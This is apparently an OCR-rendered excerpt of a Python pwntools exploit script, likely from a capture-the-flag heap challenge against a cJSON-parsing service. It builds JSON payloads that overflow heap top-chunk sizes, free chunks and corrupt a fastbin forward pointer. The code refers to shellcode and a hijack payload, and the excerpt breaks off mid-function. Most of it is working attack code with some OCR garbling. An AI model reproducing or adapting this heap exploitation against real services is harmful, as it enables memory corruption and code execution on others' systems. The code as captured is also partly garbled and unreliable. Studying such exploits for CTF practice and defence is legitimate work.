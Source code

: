 ```bash
    '''
    # breakpoint()
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload




def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
    {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
    '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))


    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)
```